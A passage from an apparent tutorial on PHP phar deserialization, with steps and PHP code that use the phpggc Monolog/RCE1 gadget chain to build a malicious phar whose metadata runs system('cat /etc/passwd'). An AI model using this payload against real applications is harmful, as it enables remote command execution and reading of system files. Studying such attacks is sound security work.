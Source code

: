 ![image](./images/image21.png)

You can notice that there are two files was created exploit.phar and pwned 

### Manually

* Choose your gadget chain, for example [monolog/RCE1](https://github.com/ambionics/phpggc/tree/master/gadgetchains/Monolog/RCE/1)
* Use both files chain.php and gadgets.php in directory
* Update chain.php to the following:

```php
<?php

require './gadgets.php';

function generate(array $parameters)
{
    $function = $parameters['function'];
    $parameter = $parameters['parameter'];

    return new \Monolog\Handler\SyslogUdpHandler(
        new \Monolog\Handler\BufferHandler(
            ['current', $function],
            [$parameter, 'level' => null]
        )
    );
}

$p = array();
$p['function'] = 'system';
$p['parameter'] = 'cat /etc/passwd';
$obj = generate($p);

$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();
```
